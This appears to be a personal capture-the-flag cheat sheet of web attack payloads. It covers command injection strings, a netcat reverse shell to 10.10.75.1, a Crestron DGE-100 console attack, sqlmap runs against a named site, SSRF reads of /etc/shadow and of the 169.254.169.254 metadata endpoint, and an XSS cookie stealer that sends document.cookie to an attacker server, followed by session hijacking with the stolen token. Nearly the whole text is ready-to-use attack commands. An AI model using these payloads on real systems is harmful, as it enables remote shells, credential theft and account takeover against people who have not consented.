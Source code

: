 ## Command Injection
### Examples to find command injection vulnerability
	-h
	PARAM; echo Injected 
	echo Injected|
	PARAM | echo Injected 
	PARAM || echo Injected 
	PARAM & echo Injected 
	PARAM && echo Injected
	$(echo Injected)
	\`echo Injected\`
	>(Echo Injected)
	Josh;id #
### Exploitation
nc -nlvvvp 11111
127.0.0.1 && nc -e /bin/sh 10.10.75.1 11111

### Creston DGE-100 attack against DGE-100 Control Console 
nc -nlvp 8080
nc 10.10.10.1 41795 
ping $(echo "$(id)" | /system/xbin/nc 192.168.1.1 8080) 

## SQL injection
% = * 

' or '1'='1

### SQLMAP 
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin"
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" --dbs
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" -D web_app --tables

## SSRF and IMDS
### SSRF 
GET  /user?profile=file:///etc/shadow 
GET  /user?profile=https://server2/me.jpg 
curl -v "http://login.falsimentis.com/imgget.php?logo=file:///etc/hosts"
### IMDS
http://169.254.169.254
http://169.254.169.254/latest/user-data

### SSRF IDMS Attack

## XSS 
### CookieStealer
try with hello <hr> <hr> <hr> 
use cookiecutter 
	php -S 0.0.0.0:2222
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>
jq "." cookies.log
curl -b authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb "http://www.rookaviary.com/admin.php"
#### USE TUN0 for COOKIE STEALING IN CTF 
### Or Via Browser in Console 
	document.cookie="authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb"